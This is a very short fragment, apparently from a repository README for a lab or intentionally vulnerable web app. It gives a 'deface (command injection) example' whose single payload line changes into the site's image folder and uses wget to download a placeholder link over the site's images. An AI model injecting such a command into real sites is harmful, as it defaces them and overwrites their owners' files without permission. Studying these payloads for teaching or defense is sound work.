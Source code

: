 # deface(command injection) example
Change images used on your site

=> cd static/img; wget [iamge link] -O [image1-9].jpg